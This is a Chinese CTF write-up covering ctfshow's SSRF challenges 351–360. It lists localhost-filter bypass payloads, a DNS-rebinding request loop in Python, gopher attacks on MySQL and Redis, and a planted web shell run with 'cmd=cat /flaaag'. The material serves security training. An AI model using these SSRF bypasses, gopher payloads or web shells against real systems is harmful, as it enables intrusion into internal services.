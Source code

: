 ```yaml
---
title: ctfshow web入门 SSRF WP
tags: 
- SSRF
date: 2021-1-15 13:06:00
categories:
- CTF
- 安全
- CTFSHOW
---
```




## web351

直接访问flag.php

![1610676416204](1610676416204.png)

POST传参

![1610676454610](1610676454610.png)

## 352 353

限制了HTTP协议,ban掉了localhost和127.0.0.1

payload: 

```
url=http://127.1/flag.php
url=http://0/flag.php
url=http://0.0.0.0/flag.php
url=http://spoofed.burpcollaborator.net/flag.php
url=http://127.127.127.127/flag.php
url=http://0177.0.0.1/flag.php
url=http://2130706433/flag.php
```

> 参考这篇公众号里面的方法: https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247488685&idx=1&sn=5e1358879423a2402ae9316c1b454a79&chksm=fa686ddccd1fe4ca81b4f5b6f5b08d38a1a9900dbca18b3b8fe7a9c69dc41ff6a671dc09b572&mpshare=1&srcid=0724B38ETzODsggAeJQq0NUh&sharer_sharetime=1603804699721&sharer_shareid=23084298e2b2fbf6c63c28aed6685355&scene=1&subscene=10000&clicktime=1603805422&enterid=1603805422&ascene=1&devicetype=android-29&version=27001353&nettype=WIFI&abtest_cookie=AAACAA%3D%3D&lang=zh_CN&exportkey=AYbhwft%2Bvac8rXbFPobPN2M%3D&pass_ticket=X55y4G263ILSYM3Pr0eJPlXY%2BGJ1i0vomPMJs5wLB7fXK4bPafvwcmZ79w%2BzXEAZ&wx_header=1
>
> 还有la师傅博客 https://lazzzaro.github.io/2020/09/03/web-

## 353

`url=http://2130706433/flag.php`

## 354

`url=http://spoofed.burpcollaborator.net/flag.php`

## 355 356

`url=http://0/flag.php`

利用的trick是去0地址

```
去0地址
http://0/
http://127.1
http://127.0.1
```

## 357

用var_filter做了严格的限制

```php
filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)
```

看到网上用dns rebind绕过的思路

具体方法参考y1ng师傅的blog https://www.gem-love.com/websecurity/2733.html

> 但是不知道为什么一直不成功

看了下yu22x师傅的博客,302跳转和dns rebind都可以

1. 302跳转 

   依旧失败,猜测这两次是用python搭建HTTP服务才失败的

2. dns rebind

注册 http://ceye.io/profile

填写以下信息

![1610684163757](1610684163757.png)

然后POST`url=http://r.mtvhjl.ceye.io/flag.php`多试几次就成功了

也可以用y1ng师傅的脚本

```python
import requests as req
s = req.session()
url = "http://1ac5ed8f-5525-4fb4-983e-e5e73f4fb345.chall.ctf.show/"
data = {
    "url": "http://r.xxxxxxx.ceye.io/flag.php"
}
while True:
    try:
        text = s.post(url=url, data=data, timeout=5).text
        print(text)
        if "flag{" in text:
            exit(0)
    except Exception as e:
        pri	nt(e)
```

## 358

```php
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

绕过正则: `url=http://ctf.@127.0.0.1/flag.php?show`

## 359

可以用gopher打MySQL

直接用工具生成payload (sql语句记得加`;`) , 地址 https://github.com/tarunkant/Gopherus

![1610686730851](1610686730851.png)

再在check.php POSTreurl=xxx,`_`后面的字符要再进行一次url编码

然后shell.php

![1610686860473](1610686860473.png)

## 360

打redis

![1610686930419](1610686930419.png)

POST提交后,访问`http://0d47ce0e-1906-401e-8f5a-47562108f93f.chall.ctf.show/shell.php?cmd=cat /flaaag`